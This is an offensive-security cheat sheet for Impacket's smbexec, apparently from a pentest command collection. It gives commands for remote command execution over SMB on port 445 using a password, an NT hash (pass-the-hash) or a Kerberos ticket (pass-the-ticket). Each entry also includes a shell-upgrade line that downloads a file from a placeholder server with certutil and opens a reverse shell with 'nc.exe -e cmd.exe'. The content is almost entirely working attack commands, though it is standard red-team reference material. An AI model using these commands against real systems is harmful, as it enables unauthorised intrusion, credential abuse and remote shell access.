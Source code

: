 # smbexec (imp)

%  windows, impacket-exec, smb


## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
smbexec.py -shell-type powershell '<domain>/<user>:<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
smbexec.py -shell-type powershell -hashes :<nt_hash> <domain>/<user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
export KRB5CCNAME=<ccache>; smbexec.py -shell-type powershell -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <domain>/<user>@<target_name>
```
